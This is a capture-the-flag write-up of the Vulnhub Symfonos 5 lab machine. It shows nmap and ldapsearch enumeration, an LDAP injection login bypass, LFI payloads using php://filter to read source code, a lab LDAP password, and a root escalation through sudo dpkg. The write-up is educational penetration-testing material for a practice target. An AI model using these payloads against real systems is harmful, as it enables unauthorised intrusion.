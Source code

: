 ```yaml
---
layout: default
title : muzec - Symfonos 5 Vulnhub Writeup
---
```


![image](https://user-images.githubusercontent.com/69868171/157661820-a7611ce1-577c-464e-af09-7ca77bed1877.png)

Now back to the series of `symfonos` seems we are almost done let jump back to it has always.



We always start with an nmap scan.....


```
nmap -p- -sC -sV -oN nmap/full.tcp 172.16.109.166
```

```
# Nmap 7.91 scan initiated Thu Mar 10 08:01:18 2022 as: nmap -p- -sC -sV -oN nmap/full.tcp 172.16.109.166
Nmap scan report for 172.16.109.166
Host is up (0.012s latency).
Not shown: 65531 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 16:70:13:77:22:f9:68:78:40:0d:21:76:c1:50:54:23 (RSA)
|   256 a8:06:23:d0:93:18:7d:7a:6b:05:77:8d:8b:c9:ec:02 (ECDSA)
|_  256 52:c0:83:18:f4:c7:38:65:5a:ce:97:66:f3:75:68:4c (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
636/tcp open  ldapssl?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Mar 10 08:01:34 2022 -- 1 IP address (1 host up) scanned in 15.98 seconds

```

Interesting we just have 4 open ports which seems cool let start with low hanging fruit first which is `ldap` .

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/symfonos5]
└─$ ldapsearch -x -h 172.16.109.166  -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingContexts: dc=symfonos,dc=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

Interesting now that we have the `namingcontexts` let move forward.

```
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/symfonos5]
└─$ ldapsearch -x -h 172.16.109.166  -b "dc=symfonos,dc=local"
# extended LDIF
#
# LDAPv3
# base <dc=symfonos,dc=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 32 No such object

# numResponses: 1
```

Now that is a deadend seems we need a credentials to access the ldap without wasting to much of time let move forward.

### 80 HTTP


![image](https://user-images.githubusercontent.com/69868171/157663764-8c552584-9201-43ea-8ce7-f81a35de6005.png)

Just a plain page with zeus background checking the source but got nothing time to Fuzz it.

```
                                                                                                                                                                       
┌──(muzec㉿Muzec-Security)-[~/Documents/Vulnhubs/symfonos5]
└─$ ffuf -ic -c -u http://172.16.109.166/FUZZ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -e .php,.html,.txt -o ffuf.dirb
```

![image](https://user-images.githubusercontent.com/69868171/157666237-20dbc841-93b5-4e66-8e43-8eee63837d8f.png)

Now that `admin.php` look promising let check what we have on it.

![image](https://user-images.githubusercontent.com/69868171/157667183-23c2be3f-69d7-4587-9e21-e0f7061a92f0.png)

Now that is a login page try some credentials like `admin/password` and sql injection also but no luck but still one seems we have ldap why not try ldap injection also.

![image](https://user-images.githubusercontent.com/69868171/157667981-e1dfe991-37bb-4f10-aab8-77968ca3b583.png)

### Ldap Injection

The payload am using is `*` for username and `*` for password.

![image](https://user-images.githubusercontent.com/69868171/157668343-0028d1de-65ee-44e6-bf54-beb12e2487ae.png)

Boom we are in time to look around to see what we can get.

![image](https://user-images.githubusercontent.com/69868171/157668409-54193ea1-7777-441c-8a5f-7299e81c6492.png)

Possible RFI/LFI hehehehe let try RFI first.

![image](https://user-images.githubusercontent.com/69868171/157668683-df13fcc6-328b-4b0f-9aee-22ad02bcdac4.png)

Now that is strange we are just getting part of the shell.php file back but we are getting the file it was confirm below.

![image](https://user-images.githubusercontent.com/69868171/157668959-8c1baf58-9caa-4d3c-9f78-b620415671bd.png)

Now back to `LFI` exploiting.

![image](https://user-images.githubusercontent.com/69868171/157669698-a221f020-76ef-43b3-a5e6-41ee30475ab7.png)

Now we are talking so far i try `ssh log poisoning, pache log poisoning` we have no luck now try reading the page source with the `php wrapper` payload.

```
http://172.16.109.166/home.php?url=php://filter/convert.base64-encode/resource=home.php
```

![image](https://user-images.githubusercontent.com/69868171/157670829-d6cc91cb-0933-4d75-81a8-450ca4bf69c7.png)


Now let decode the `base64`  and see the source code.

![image](https://user-images.githubusercontent.com/69868171/157671185-4607d6f1-ae60-43d2-94d9-7955d4ea11a8.png)

Nah... nothing let check the `admin.php` now.

```
http://172.16.109.166/home.php?url=php://filter/convert.base64-encode/resource=admin.php
```

![image](https://user-images.githubusercontent.com/69868171/157671330-17c5052c-714a-4348-a49f-1905b6a62f7a.png)


![image](https://user-images.githubusercontent.com/69868171/157671511-e152f056-d7fd-4577-be47-8f9a649db501.png)

Now we have credentials for `ldap` back to it.

```
ldapsearch -h 172.16.109.166 -D 'cn=admin,dc=symfonos,dc=local' -w 'qMDdyZh3cT6eeAWD' -s base namingcontexts
```

![image](https://user-images.githubusercontent.com/69868171/157671701-c0429379-1766-4373-bf4d-15ebaa319bdc.png)


```
ldapsearch -h 172.16.109.166 -D 'cn=admin,dc=symfonos,dc=local' -w 'qMDdyZh3cT6eeAWD' -b "dc=symfonos,dc=local"
```

![image](https://user-images.githubusercontent.com/69868171/157671928-a58e0199-9e68-4de8-a018-6a17a310c68e.png)

Now seems we find a way encoded in base64 let decode it.

![image](https://user-images.githubusercontent.com/69868171/157672149-05f68008-f1f6-4529-911d-f14e8ab18ae2.png)

Now try it on `SSH` with the user `zeus` .

![image](https://user-images.githubusercontent.com/69868171/157672314-c111598a-9dd9-4c96-b4fc-b82e840b2db2.png)

Boom we are in and seems we can run `sudo` with `/usr/bin/dpkg` now let jump to `gtfobins` .

![image](https://user-images.githubusercontent.com/69868171/157672515-7a302705-dde1-41c1-a874-4f3228b70aef.png)


```
sudo /usr/bin/dpkg -l
```

![image](https://user-images.githubusercontent.com/69868171/157672978-5847aed2-5d28-48bd-a46a-ae2bba94e181.png)

Now let type `!sh` to drop into root shell.

![image](https://user-images.githubusercontent.com/69868171/157673116-d044a9a7-4a3c-4aa1-b8c6-3d91a2853259.png)

![image](https://user-images.githubusercontent.com/69868171/157673179-eea273bd-510c-4c97-a5d5-9edc652e40e9.png)

We are done.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
